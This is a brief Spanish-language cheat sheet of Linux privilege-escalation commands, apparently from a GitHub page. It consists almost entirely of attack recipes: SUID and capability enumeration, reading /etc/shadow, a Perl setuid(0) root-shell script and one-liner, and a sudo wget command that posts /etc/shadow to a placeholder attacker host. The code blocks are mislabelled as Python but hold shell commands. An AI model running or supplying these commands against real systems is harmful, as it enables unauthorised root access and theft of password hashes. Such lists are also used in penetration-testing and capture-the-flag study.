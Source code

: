 ### SUID

```python
	find / -perm -u=s -type f 2>/dev/null
```
### Buscar binarios para escalada de privilegios

```python
	find / -perm -u=s -type f 2>/dev/null
	
	find / -perm -4000 2>/dev/null
```
### Capabilities

```python
	getcap -r / 2>/dev/null
```
### Tareas programadas

```python
	cat /etc/crontab
```

---
### Escaladas 
### Escalada de privilegios con cat

```python
	/bin/cat /etc/shadow
```
### Escalada de privilegios con perl 

```python
	echo -ne '#!/bin/perl \nuse POSIX qw(setuid); \nPOSIX::setuid(0); \nexec "/bin/bash";' > script.pl
	
	perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
	
```
### Escalada de privilegios con wget

```python
sudo /usr/bin/wget --post-file=/etc/shadow <local-ip> <puerto>
```
